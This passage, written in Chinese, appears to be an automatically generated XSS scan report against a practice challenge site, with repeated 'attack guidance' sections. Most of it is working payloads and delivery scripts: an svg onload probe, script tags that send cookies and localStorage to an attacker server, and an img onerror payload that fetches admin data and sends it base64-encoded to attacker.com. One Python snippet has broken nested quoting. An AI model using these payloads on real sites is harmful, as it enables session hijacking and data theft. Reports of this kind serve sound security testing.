 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: critical
- 验证载荷: <svg onload=alert(document.domain)>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <svg onload=alert(document.domain)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '<svg onload=alert(document.domain)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: critical
- 验证载荷: <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '<img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>'}
   response = requests.get(url, params=params)
   ```
